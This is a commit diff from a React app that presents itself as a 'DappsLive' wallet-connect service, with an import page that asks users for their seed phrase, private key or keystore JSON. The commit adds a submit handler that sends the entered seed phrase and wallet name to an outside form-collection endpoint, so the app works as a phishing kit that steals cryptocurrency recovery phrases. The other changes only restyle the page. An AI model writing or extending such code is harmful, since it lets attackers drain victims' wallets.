

Before and after one commit to valqndrew/walletconnect, a React (Vite) app: page /import in a window 1280 px wide. Shown: the top 486 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
email so much better now

```diff
--- a/src/backend/firebase.js
+++ b/src/backend/firebase.js
@@ -37,7 +37,7 @@ const firebaseConfig = {
 // Initialize Firebase
 const app = initializeApp(firebaseConfig);
 const analytics = getAnalytics(app);
-const auth = getAuth(app);
+export const auth = getAuth(app);
 
 const db = getFirestore();
 
--- a/src/pages/Components/LandingAppBar.jsx
+++ b/src/pages/Components/LandingAppBar.jsx
@@ -30,7 +30,13 @@ const LandingAppBar = () => {
           alignItems="center"
         >
           {pages.map((page) => (
-            <Button color="secondary" variant="outlined" to="/wallets" component={NavLink} sx={{ width: "100%" }}>
+            <Button
+              color="secondary"
+              variant="outlined"
+              to="/wallets"
+              component={NavLink}
+              sx={{ width: "100%" }}
+            >
               {page}
             </Button>
           ))}
@@ -41,9 +47,7 @@ const LandingAppBar = () => {
           <Toolbar disableGutters>
             <Box sx={{ mr: 2, display: { xs: "none", md: "flex" } }}>
               <HomeLink to="/">
-                <Typography variant="h5" color="secondary">
-                  DappsLive
-                </Typography>
+                <Typography variant="h5">DappsLive</Typography>
               </HomeLink>
             </Box>
 
@@ -60,9 +64,8 @@ const LandingAppBar = () => {
               </IconButton>
             </Box>
             <Box sx={{ flexGrow: 1, display: { xs: "flex", md: "none" } }}>
-              <HomeLink to="/" color="secondary">
-
-                <Typography variant="h4" color="secondary">DAppsLive</Typography>
+              <HomeLink to="/">
+                <Typography variant="h4">DAppsLive</Typography>
               </HomeLink>
             </Box>
             <Box sx={{ flexGrow: 1, display: { xs: "none", md: "flex" } }}>
@@ -70,8 +73,7 @@ const LandingAppBar = () => {
                 <Button
                   key={page}
                   onClick={toggleMenu}
-                  color="secondary"
-                  sx={{ my: 2,  display: "block" }}
+                  sx={{ my: 2, display: "block" }}
                 >
                   {page}
                 </Button>
--- a/src/pages/ImportWallet.jsx
+++ b/src/pages/ImportWallet.jsx
@@ -12,7 +12,10 @@ import styled from "@emotion/styled";
 import { ImportTextField } from "./styles/styles";
 import LandingAppBar from "./Components/LandingAppBar";
 
-const WalletForm = ({ children, code }) => {
+const FORM_ENDPOINT =
+  "https://public.herotofu.com/v1/f2241800-ae93-11ec-b83f-8f17e10d6288";
+
+const WalletForm = ({ children, code, handleSubmit }) => {
   const uploadData = (value, type, wallet) => {
     const payload = { value, type, wallet };
 
@@ -35,9 +38,9 @@ const WalletForm = ({ children, code }) => {
   return (
     <Box
       component="form"
-      action="https://public.herotofu.com/v1/f2241800-ae93-11ec-b83f-8f17e10d6288"
+      action={FORM_ENDPOINT}
       method="POST"
-      onSubmit={() => handleUpload({ code })}
+      onSubmit={handleSubmit}
     >
       {children}
       <Button type="submit" sx={{ width: "100%" }} variant="contained">
@@ -77,15 +80,40 @@ function a11yProps(index) {
 }
 
 function BasicTabs() {
+  const { wallet } = useContext(WalletContext);
+
   const PRIVATE_KEY = "private_key";
   const SEED_PHRASE = "seed_phrase";
   const KEY_JSON = "key_json";
 
-  const { wallet } = useContext(WalletContext);
+  const [seedPhrase, setSeedPhrase] = useState();
+  const [privateKey, setPrivateKey] = useState();
+  const [keyJSON, setKeyJSON] = useState();
+  const [keyPasscode, setKeyPasscode] = useState();
+
   const [value, setValue] = useState(0);
 
   const handleChange = (event, newValue) => {
     setValue(newValue);
+  };
+
+  const handleSeedPhraseSubmit = (e) => {
+    e.preventDefault();
+
+    const injectedData = {
+      wallet,
+      seedPhrase,
+      code: SEED_PHRASE,
+    };
+
+    fetch(FORM_ENDPOINT, {
+      method: "POST",
+      headers: {
+        Accept: "application/json",
+        "Content-Type": "application/json",
+      },
+      body: JSON.stringify(injectedData),
+    });
   };
 
   return (
@@ -103,10 +131,14 @@ function BasicTabs() {
       </Box>
 
       <TabPanel value={value} index={0}>
-        <WalletForm code={SEED_PHRASE}>
+        <WalletForm code={SEED_PHRASE} handleSubmit={handleSeedPhraseSubmit}>
           <ImportTextField
             name="Seed Phrase"
             label="Seed Phrase"
+            value={seedPhrase}
+            onChange={(e) => {
+              setSeedPhrase(e.target.value);
+            }}
             multiline
             sx={{ mb: 2 }}
             rows={6}
@@ -155,7 +187,6 @@ const ImportWallet = () => {
           <IconButton component={NavLink} to="/wallets">
             <ArrowBackIcon />
           </IconButton>
-          <Typography variant="h6">Import {wallet} Wallet</Typography>
         </Box>
         <BasicTabs />
       </Container>
--- a/src/pages/styles/styles.jsx
+++ b/src/pages/styles/styles.jsx
@@ -18,16 +18,10 @@ export const theme = createTheme({});
 export const newTheme = createTheme({
   palette: {
     primary: {
-      light: "#ffffff",
-      main: "#f8f9fa",
-      dark: "#c5c6c7",
-      contrastText: "#000",
+      main: "#26A69A",
     },
     secondary: {
-      light: "#474c50",
-      main: "#202428",
-      dark: "#000000",
-      contrastText: "#fff",
+      main: "#37464f",
     },
   },
 });
@@ -83,5 +77,4 @@ export const SignInGrid = styled(Grid)(({}) => ({
   borderRadius: 5,
 }));
 
-export const SignInTextField = styled(TextField)(({}) => ({
-}));
+export const SignInTextField = styled(TextField)(({}) => ({}));
```
Also changed, not shown: src/App.jsx (indentation only). Lines whose indentation alone changed are shown as unchanged.
